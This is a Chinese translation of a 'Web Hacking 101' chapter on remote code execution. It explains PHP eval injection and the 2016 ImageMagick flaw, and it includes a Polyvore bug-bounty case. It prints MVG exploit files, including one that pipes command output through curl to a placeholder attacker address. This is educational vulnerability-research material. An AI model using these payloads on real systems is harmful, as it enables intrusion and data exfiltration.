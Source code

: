 ## **0x11-代碼執行**
>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0

描述
遠端代碼執行是指註入由漏洞應用解釋和執行的代碼。這通常由用戶提交輸入，應用使用它而沒有任何類型的處理或驗證而導致。
看一下這行代碼：

```php
$var = $_GET['page'];
eval($var);
```
這裏，漏洞應用可能使用 URL `index.php?page=1`，但是，如果用於輸入了`index.php?page=1;phpinfo()`，應用就會執行`phpinfo`函數，並返回其內容。
<p>

與之類似，遠端代碼執行有時用於指代命令註入，OWASP 區分了這兩點。使用命令駐入，根據 OWASP，漏洞應用在主機操作系統上執行任何命令。同樣，這也由不合理處理和驗證用戶輸入導致，這會導致用戶輸入傳遞給操作系統的命令。

<p>

例如 PHP 中，這可能表現為用戶輸入傳遞給`system`函數。


## **示例**

### **1. Polyvore ImageMagick**
ImageMagick 是個軟件包，通常用於處理圖像，例如剪裁、縮放等等。 PHP 的 imagick、Ruby 的 rmagick 以及 paperclip，以及 NodeJs 的 imagemagick 都利用了它。在 2016 年 4 月，該庫中發現了多個漏洞，其中可利用的漏洞之一就是執行遠程代碼，這就是我關註的。

簡單來說，ImageMagick 並沒有合理地傳給他的過濾文件名稱，並且最終用於執行system方法調用。因此，攻擊者利益傳入命令來執行，就像`https://example.com”|ls"-la`，它會被執行。一個來自 ImageMagick 的例子是：

```
convert 'https://example.com"|ls "-la' out.png
```

現在，有趣的是，ImageMagick 為 MVG（Magick Vectire Graphics）文件定義了自己的語法。所以，攻擊者能夠創建文件exploit.mvg，帶有下列代碼：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls "-la)'
pop graphic-context
```

這之後會傳給該庫，並且如果站點存在漏洞，代碼會執行並列出目錄中的文件。

了解其背景之後，Ben Sadeghipour 測試了 Yahoo acquisition 站點以及 Polyvore 是否存在漏洞。就像他博文中所述，Ben 首先在它所控制的本地機器上測試了該漏洞，來確認mvg文件是否正常工作。這是他使用的代碼：

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://SOMEIPADDRESS:80
80/ -d @- > /dev/null`'
pop graphic-context
```

這裏你可以看到，它使用了 CURL 庫來調用 SOMEIPADDRESS（將其修改為你服務器的地址）。如果成功，你就會得到像這樣的響應：

![1](https://raw.githubusercontent.com/dyeat/Document_read/master/Web_Hacking_101/image/15-1.jpg)

Ben Sadeghipour ImageMagick 測試的服務器響應
下面 Ben 瀏覽了 Polyvore，將文件上傳為它的資料頭像，並在它的服務器上收到了這個響應：

![1](https://raw.githubusercontent.com/dyeat/Document_read/master/Web_Hacking_101/image/15-2.jpg)

Ben Sadeghipour Polyvore ImageMagick 響應
>重要結論
>
>閱讀是成功滲透的重要組成部分，這包括閱讀軟件漏洞和常見漏洞，以及披露（CVE 標識符）。
>當你碰到沒有安裝安全更新的站點時，了解之前的漏洞能夠幫助你。
>這裏， Yahoo 已經修補了服務器，但是沒有正確完成（我找不到關於這是什麽意思的解釋）。
>一次你，了解 ImageMagick 漏洞讓 Ben 特地以這個軟件為目標，並得到了 $2000 的獎金。
